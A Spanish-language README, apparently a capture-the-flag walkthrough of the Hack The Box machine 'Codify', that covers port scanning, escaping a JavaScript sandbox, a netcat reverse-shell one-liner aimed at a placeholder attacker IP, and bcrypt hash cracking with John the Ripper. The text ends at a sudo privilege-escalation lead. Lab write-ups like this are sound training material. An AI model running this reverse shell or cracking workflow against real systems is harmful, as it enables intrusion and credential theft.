


# Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f

## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.
Utilizando la herramienta John The Ripper y la wordlist rockyou, consigo crackear el hash: 
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hashJoshua.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashJoshua.txt 

Pruebo a iniciar sesión como el usuario Joshua utilizando la contraseña del hash, y consigo acceso al usuario.
En su directorio home se encuentra la user flag, primer objetivo cumplido, pero ahora debo intentar escalar privilegios hacia el usuario root.

Utilizando el comando sudo -l se puede observar que el usuario joshua puede ejecutar mysql-backup.sh como root. Lo que nos da un punto de apoyo para poder escalar privilegios.

